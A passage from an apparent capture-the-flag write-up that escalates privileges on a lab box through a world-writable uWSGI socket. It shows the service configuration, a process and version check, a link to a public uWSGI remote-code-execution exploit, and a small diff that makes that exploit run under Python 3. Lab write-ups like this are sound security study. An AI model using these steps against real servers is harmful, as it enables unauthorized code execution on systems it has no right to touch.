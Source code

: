 `start.sh`:

```bash
#!/bin/bash
service ssh start
service nginx start
uwsgi --ini uwsgi.ini --chmod-sock=666
```

`uwsgi.ini`

```ini
[uwsgi]
module = oouch:app
uid = www-data
gid = www-data
master = true
processes = 10
socket = /tmp/uwsgi.socket
chmod-sock = 777
vacuum = true
die-on-term = true
```

`www-data` owns uwsgi.

### UWSGI exploitation

Let's check that uwsgi runs as www-data and is in a vulnerable version.

```
qtc@aeb4525789d8:~$ ps -ef | grep uwsgi
www-data    31     1  0 08:00 ?        00:00:05 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    32    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    33    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    34    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    35    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    36    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    37    31  0 08:00 ?        00:00:01 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    38    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    39    31  0 08:00 ?        00:00:01 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    40    31  0 08:00 ?        00:00:01 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    41    31  0 08:00 ?        00:00:01 uwsgi --ini uwsgi.ini --chmod-sock=666
qtc        140    90  0 22:06 pts/0    00:00:00 grep uwsgi
qtc@aeb4525789d8:~$ uwsgi --version
2.0.17.1
```

I found an RCE exploit on github: https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py

We need a quick patch, on line 18-19 in `sz()`, remove or comment the if statements.

```diff
def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
-   if sys.version_info[0] == 3: import bytes
+   #if sys.version_info[0] == 3: import bytes
-   s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
+   s = bytes.fromhex(s) #if sys.version_info[0] == 3 else s.decode('hex')
    return s[::-1]
```
